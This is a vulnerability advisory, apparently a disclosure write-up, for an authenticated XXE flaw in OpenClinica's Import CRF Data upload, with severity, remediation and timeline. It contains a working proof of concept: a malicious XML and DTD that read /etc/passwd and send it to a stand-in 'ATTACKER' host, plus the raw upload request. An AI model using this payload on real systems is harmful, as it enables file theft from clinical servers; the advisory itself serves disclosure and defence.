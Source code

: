 # OpenClinica Import CRF Data – XXE file disclosure

An XML External Entity issue in **Import CRF Data** discloses OS files via error-based XXE.

---

## Product / Versions
- OpenClinica Community Edition  
  - **3.13** – Changeset `74f4df3481b6` (2017-02-28)  
  - **3.12.2** – Changeset `347dcfca3d17` (2016-11-21)

## Affected area
`Tasks → Import CRF Data` (multipart upload parameter: `xml_file`)

## Auth
Authenticated (tested as **Data Manager** and **Clinical Research Coordinator**)

## Summary
The XML parser processes external entities. A crafted XML can read local files (e.g. `/etc/passwd`) and reflect their contents back in the UI error block, confirming **XXE** with file disclosure and potential SSRF.

## Screenshot
![Error-based XXE disclosing /etc/passwd](3.png)

## PoC

**evil11.xml**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xxe SYSTEM "http://ATTACKER/malicious.dtd">
<xxe>test</xxe>
```

**malicious.dtd**
```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % all "<!ENTITY xxe SYSTEM 'http://ATTACKER/leak?d=%file;'>">
%all;
```

## Raw request (abridged)
```
POST /OpenClinica/ImportCRFData?action=confirm HTTP/1.1
Host: <target>:8080
Content-Type: multipart/form-data; boundary=----X

------X
Content-Disposition: form-data; name="xml_file"; filename="evil11.xml"
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE xxe SYSTEM "http://ATTACKER/malicious.dtd">
<xxe>test</xxe>
------X--
```

## Impact
- Read arbitrary local files as the application user (secrets, config, keys)
- Potential SSRF by pointing entities at internal HTTP services

## Severity (suggested)
**CVSS v3.1:** `AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N` → **7.1 High**  
**CWE:** 611 (XXE)

## Remediation
- Disable DTD/XXE on the XML parser: `disallow-doctype-decl=true`, `external-general-entities=false`, `external-parameter-entities=false`, `FEATURE_SECURE_PROCESSING=true`.
- Validate uploaded XML against a strict schema server-side.
- Minimise file permissions of the OpenClinica/Tomcat user.

## Timeline
- 2025-10-09: Discovered and reproduced on 3.12.2 and 3.13 images.
- 2025-10-09: Attempted to contact vendor, no response.
- 2025-10-23: Reported to VulDB.
